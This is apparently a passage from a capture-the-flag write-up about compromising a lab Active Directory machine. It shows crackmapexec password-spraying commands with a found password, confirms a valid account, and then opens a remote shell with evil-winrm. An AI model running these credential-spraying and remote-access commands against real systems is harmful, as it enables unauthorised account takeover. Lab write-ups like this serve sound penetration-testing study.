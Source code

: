 `querydispinfo`

![](https://i.imgur.com/MFmgSg0.png)

With this information, I can move on to password spraying rather than AS-REP Roasting.

## Shell as melanie
### Password Spraying
Knowing from above sAMAccountName that **Marko Novak** has account name as **marko**, I tried authenticating with the found password but it didn't worked:


`crackmapexec smb 10.10.10.169 -u marko -p Welcome123!`

![](https://i.imgur.com/0dg0rt2.png)


Since it failed, I tried on password spraying:

`crackmapexec smb 10.10.10.169 -u sAMAccountNames.txt -p Welcome123!`
![](https://i.imgur.com/0HkLMGC.png)


After some time I found a valid match: **melanie:Welcome123!**
![](https://i.imgur.com/qrq3XcE.png)


### Checking Access

User melanie had access to **smb**:

`crackmapexec smb 10.10.10.169 -u melanie -p Welcome123!`

![](https://i.imgur.com/6FxR3kC.png)



User melanie also had access to **winrm**:

`crackmapexec winrm 10.10.10.169 -u melanie -p Welcome123!`

![](https://i.imgur.com/rpBKH2b.png)


### Evil-Winrm

Now I have my first shell as user **melanie**!:

`evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!`

![](https://i.imgur.com/XMXkCBy.png)



## Privesc melanie to ryan
### Bloodhound
Since I know this machine is running on Active Directory, I first decided to run **Bloodhound**.
